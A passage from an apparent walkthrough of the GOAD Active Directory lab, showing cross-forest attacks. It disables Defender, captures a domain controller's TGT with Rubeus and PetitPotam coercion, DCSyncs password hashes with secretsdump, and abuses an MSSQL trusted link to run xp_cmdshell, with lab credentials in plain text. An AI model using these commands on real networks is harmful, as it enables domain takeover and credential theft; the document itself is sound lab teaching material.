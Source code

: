 - For more simplicity we will disable defender 
- Now we launch [rubeus.exe](https://github.com/GhostPack/Rubeus) to wait for a TGT of the essos forest.

```powershell
.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1
```

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.

```bash
petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local
```

- And we get the TGT of meereen !

![trust_forest_tgt_unconstrained.png](/assets/blog/GOAD/trust_forest_tgt_unconstrained.png)

- Now we can copy it to linux (delete space and \n)
- Decode the base64 and save it to a kirbi file

```bash
base64 -d rubeus.b64 > meereen.kirbi
```

- Convert it to ccache and use it to dcsync essos.local

```bash
ticketConverter.py meereen.kirbi meereen.ccache 
export KRB5CCNAME=/workspace/trusts/unconstrained/meereen.ccache
secretsdump -k -no-pass -just-dc-ntlm essos.local/'MEEREEN$'@meereen.essos.local
```

![trust_forest_tgt_unconstrained_finish.png](/assets/blog/GOAD/trust_forest_tgt_unconstrained_finish.png)


## Mssql Trusted link

- The MSSQL trust link is across forest, so it can be used to make forest to forest exploitation.
- Example was done in part 7 but let's redo this for fun :

- Connect to the mssql DB as jon.snow

```bash
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local
```

- enumerate the mssql trusted links

```bash
enum_links
```

![trust_forest_mssql_enum.png](/assets/blog/GOAD/trust_forest_mssql_enum.png)

- And now use the link from castelblack (north domain) to braavos (essos domain)

```bash
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```
